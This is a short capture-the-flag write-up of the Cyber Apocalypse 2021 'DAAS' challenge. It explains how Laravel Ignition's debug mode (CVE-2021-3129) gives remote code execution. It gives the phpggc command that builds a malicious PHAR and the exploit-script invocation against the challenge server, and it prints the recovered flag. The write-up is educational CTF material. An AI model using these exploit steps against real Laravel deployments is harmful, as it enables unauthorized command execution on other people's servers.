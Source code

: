 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | DAAS Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: web
challenge: DAAS
tags: "web, nigamelastic, laravel, rce"
date: 2021-04-24T00:00:00+00:00
last_update: 2021-04-24T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## DAAS

> Solved by: Nigamelastic

* The hint for this challenge talks about being stuck in debug.
* Some research shows there is a CVE for this, and the Laravel version were working with is vulnerable.
* https://www.exploit-db.com/exploits/49424
* https://www.youtube.com/watch?v=gr8ZKQpYiug&

**CVE-2021-3129** : https://nvd.nist.gov/vuln/detail/CVE-2021-3129

* Find 

```
ip/_ignition/execute-solution
```

* For a laravel panel with error messages and stack trace. 

![](https://i.imgur.com/bwswVCZ.jpg)

* https://www.ambionics.io/blog/laravel-debug-rce
* As mentioned in the blog above i tried performing a post request but it gave me a 302 response
* but the above link mentions their github page and exploit which is
`https://github.com/ambionics/phpggc`
and 
`https://github.com/ambionics/laravel-exploits`

the idea is to get the phar file with ur custom command from 1st repo and then put the phar file into the exploit with specified url to run the exploit
**PS: for a linux command with spaces simply use** `"` 

* so for our case since we know the flag was found on the root directory and its name as 

```
flagM1AhS
```

* our phpggc command should be

```bash
php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /flagM1AhS"
```

* run that in the exploit as:

```bash
./laravel-ignition-rce.py http://165.227.234.7:31636/ /tmp/exploit.phar
```

* and we have the flag:

```
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
```


